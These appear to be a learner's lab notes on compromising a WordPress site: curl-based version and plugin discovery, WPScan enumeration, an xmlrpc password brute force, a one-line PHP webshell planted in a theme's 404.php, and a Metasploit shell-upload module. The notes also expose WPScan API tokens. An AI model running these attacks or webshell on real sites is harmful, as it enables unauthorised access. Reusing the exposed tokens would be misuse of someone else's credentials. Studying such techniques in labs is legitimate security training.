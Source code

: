 check `/robots.txt`
check `/wp-login, /wp-admin` 

##  Version Discovery

```shell-session
$ curl -s http://blog.inlanefreight.local | grep WordPress

<meta name="generator" content="WordPress 5.8" />
```

#### Themes`
```
 curl -s http://blog.inlanefreight.local | grep themes
```

#### what plugins installed?

```
 curl -s http://blog.inlanefreight.local | grep plugins
<link  id='contact-form-7-css' /plugins/contact-form-7/i' 
<link rel='stylesheet' id='wpdiscuz-frontend-css-css' 
```
 look for CVEs on them.
## what users exist?

This makes WordPress vulnerable to username enumeration, which can be used to obtain a list of potential usernames.

## ## WPScan

[WPScan](https://github.com/wpscanteam/wpscan) is an automated WordPress scanner and enumeration tool. It determines if the various themes and plugins used by a blog are outdated or vulnerable.

![](Pasted%20image%2020250211153333.png)
WPScan is also able to pull in vulnerability information from external sources. We can obtain an API token from [WPVulnDB](https://wpvulndb.com/), which is used by WPScan to scan for PoC and reports. The free plan allows up to 75 requests per day. To use the WPVulnDB database, just create an account and copy the API token from the users page. This token can then be supplied to wpscan using the `--api-token parameter`.

The `--enumerate` flag is used to enumerate various components of the WordPress application, such as plugins, themes, and users. By default, WPScan enumerates vulnerable plugins, themes, users, media, and backups.
`run wpscan in docker`
```
$ sudo docker run -it --rm --network host wpscanteam/wpscan --url http://blog.inlanefreight.local --enumerate --api-token a3VkBJyg1rMIahRVYtQXpWAEXl6ixXyoSCG3tDL5xzs

```


`wpscan password bruteforce`
```shell-session
$ sudo wpscan --password-attack xmlrpc -t 20 -U doug -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```


#### Creating a webshell
select an unused theme and an unusual page, `404.php` select ninteen and 404
![](Pasted%20image%2020250211200810.png)
##### Simple test
```php
system($_GET[0]);
```

#### interactive webshell

`metasploit`
```
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
# info:
This module takes an administrator username and password, logs into the admin panel, and uploads a payload packaged as a WordPress plugin. Because this is authenticated code execution by design, it should work on all versions of WordPress.
```
https://github.com/p0dalirius/Wordpress-webshell-plugin

![](Pasted%20image%2020250211212237.png)




================================================
`lab`
![](Pasted%20image%2020250211132204.png)
after browsing the readme, mail-masta 1 is in use.


start searching for vulns when done enumerating obviously, 


Wpscan
https://wpscan.com/profile/

```
api: PozBOhbkIixUcbMR3tvMaHCZN0bvhCYclspMdCyYsco

```

`run wpscan in docker`
```
└─$ sudo docker run -it --rm --network host wpscanteam/wpscan --url http://blog.inlanefreight.local --enumerate --api-token a3VkBJyg1rMIahRVYtQXpWAEXl6ixXyoSCG3tDL5xzs

```


=========================================
## Some notes that might help you

WordPress stores its plugins in the `wp-content/plugins` directory. This folder is helpful to enumerate vulnerable plugins. Themes are stored in the `wp-content/themes` directory. These files should be carefully enumerated as they may lead to RCE.


# AUTHORIZATION LEVELS
There are five types of users on a standard WordPress installation.

1. Administrator: This user has access to administrative features within the website. This includes adding and deleting users and posts, as well as editing source code.
2. Editor: An editor can publish and manage posts, including the posts of other users.
3. Author: They can publish and manage their own posts.
4. Contributor: These users can write and manage their own posts but cannot publish them.
5. Subscriber: These are standard users who can browse posts and edit their profiles.
